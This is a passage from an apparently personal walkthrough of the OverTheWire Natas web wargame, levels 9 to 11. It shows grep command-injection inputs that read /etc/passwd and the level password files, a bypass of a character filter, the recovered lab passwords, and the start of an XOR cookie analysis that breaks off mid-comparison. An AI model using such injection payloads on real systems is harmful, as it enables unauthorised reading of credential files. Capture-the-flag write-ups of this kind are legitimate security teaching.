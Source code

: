 Uh oh! This is interpolating an input into a system call; this should be fun XP

Grep uses regex, so using `.` we can return every line in a file. Hash can comment out the ` dictionary.txt` ending of the command.

`. /etc/passwd # ` shows all the users.

Going by the password path shown in natas7:

`. /etc/natas_webpass/natas9 # ` shows the current password.
`. /etc/natas_webpass/natas10 # ` shows the next password!

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## 10

Same as before, but now our input is filtered using `preg_match('/[;|&]/',$key)` to prevent chaining commands.

This probably still lets subshells though though =P

`. /etc/natas_webpass/natas11 # ` shows the next pasword; haha, no need for a subshell.

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## 11

a - \#FFFFFF:

	ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D

b - \#000000:

	ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw%3D

Convert each:

- Decode from URI
- Decode from Base64
- Convert to hex

A - \#FFFFFF:

	0a 55 4b 22 1e 00 48 2b 02 04 4f 25 03 13 1a 70 53 19 57 68 5d 55 5a 2d 12 18 54 25 03 55 02 68 52 11 5e 2c 17 11 5e 68 0c

B - \#000000:

	0a 55 4b 22 1e 00 48 2b 02 04 4f 25 03 13 1a 70 53 19 57 68 5d 55 5a 2d 12 18 54 25 03 55 02 68 52 47 08 7a 41 47 08 68 0c

Together for comparison:

	0a 55 4b 22 1e 00 48 2b 02 04 4f 25 03 13 1a 70 53 19 57 68 5d 55 5a 2d 12 18 54 25 03 55 02 68 52 11 5e 2c 17 11 5e 68 0c
	0a 55 4b 22 1e 00 48 2b 02 04 4f 25 03 13 1a 70 53 19 57 68 5d 55 5a 2d 12 18 54 25 03 55 02 68 52 47 08 7a 41 47 08 68 0c

Comparing shows that these parts differ:
